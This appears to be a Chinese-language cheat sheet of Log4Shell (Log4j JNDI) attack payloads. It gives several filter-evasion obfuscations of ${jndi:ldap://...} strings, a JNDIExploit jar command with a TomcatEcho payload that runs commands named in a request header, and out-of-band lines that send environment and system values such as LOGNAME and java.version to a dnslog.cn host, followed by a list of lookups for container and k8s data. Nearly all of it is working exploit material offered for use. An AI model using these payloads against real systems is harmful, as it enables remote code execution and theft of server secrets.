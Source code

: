 ```
${j${lower:n}d${lower:i}${lower::}${lower:l}d${lower:a}p${lower::}${lower:/}/${lower:1}${lower:2}${lower:7}.${lower:0}${lower:.}${lower:0}${lower:.}${lower:1}${lower::}${lower:1}0${lower:9}${lower:9}/${lower:o}${lower:b}j}

${${upper:j}${lower:n}${lower:d}${lower:i}${lower::}${lower:l}${lower:d}${lower:a}${lower:p}${lower::}${lower:/}${lower:/}${lower:1}${lower:2}${lower:7}${lower:.}${lower:0}${lower:.}${lower:0}${lower:.}${lower:1}${lower::}${lower:1}${lower:0}${lower:9}${lower:9}${lower:/}${lower:o}${lower:b}${lower:j}}

${${nuDV:CW:yqL:dWTUHX:-j}n${obpOW:C:-d}${ll:-i}:${GI:-l}d${YRYWp:yjkg:wrsb:RajYR:-a}p://${RHe:-1}2${Qmox:dC:MB:-7}${ucP:yQH:xYtT:WCVX:-.}0.${WQRvpR:ligza:J:DSBUAv:-0}.${v:-1}:${p:KJ:-1}${Ek:gyx:klkQMP:-0}${UqY:cE:LPJtt:L:ntC:-9}${NR:LXqcg:-9}/o${fzg:rsHKT:-b}j}

${${uPBeLd:JghU:kyH:C:TURit:-j}${odX:t:STGD:UaqOvq:wANmU:-n}${mgSejH:tpr:zWlb:-d}${ohw:Yyz:OuptUo:gTKe:BFxGG:-i}${fGX:L:KhSyJ:-:}${E:o:wsyhug:LGVMcx:-l}${Prz:-d}${d:PeH:OmFo:GId:-a}${NLsTHo:-p}${uwF:eszIV:QSvP:-:}${JF:l:U:-/}${AyEC:rOLocm:-/}${jkJFS:r:xYzF:Frpi:he:-1}${PWtKH:w:uMiHM:vxI:-2}${a:-7}${sKiDNh:ilypjq:zemKm:-.}${QYpbY:P:dkXtCk:-0}${Iwv:TmFtBR:f:PJ:-.}${Q:-0}${LX:fMVyGy:-.}${lS:Mged:X:th:Yarx:-1}${xxOTJ:-:}${JIUlWM:-1}${Mt:Wxhdp:Rr:LuAa:QLUpW:-0}${sa:kTPw:UnP:-9}${HuDQED:-9}${modEYg:UeKXl:YJAt:pAl:u:-/}${BPJYbu:miTDQJ:-o}${VLeIR:VMYlY:f:Gaso:cVApg:-b}${sywJIr:RbbDTB:JXYr:ePKz:-j}}
```

**TomcatEcho 回显方法**
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i xx.xx.xx.xx -l 8899 -p 9988
```

```
${jndi:ldap://xx.xx.xx.xx:8899/Deserialization/CommonsBeanutils2/TomcatEcho}

header 头里带下
cmd: ls
```

**信息带外**

高版本不能rce了，但通过 sys 和 env 协议，结合 jndi 可以读取到一些环境变量和系统变量，特定情况下可能可以读取到系统密码

举个例子
```
${jndi:ldap://${env:LOGNAME}.eynz6t.dnslog.cn}
${jndi:ldap://${sys:os.name}.eynz6t.dnslog.cn}
${jndi:ldap://${sys:java.version}.eynz6t.dnslog.cn}
```

常见带外
```
${ctx:loginId}
${map:type}
${filename}
${date:MM-dd-yyyy}
${docker:containerId}
${docker:containerName}
${docker:imageName}
${env:USER}
${event:Marker}
${mdc:UserId}
${java:runtime}
${java:vm}
${java:os}
${jndi:logging/context-name}
${hostName}
${docker:containerId}
${k8s:accountName}
${k8s:clusterName}
${k8s:containerId}
${k8s:containerName}
${k8s:host}
```
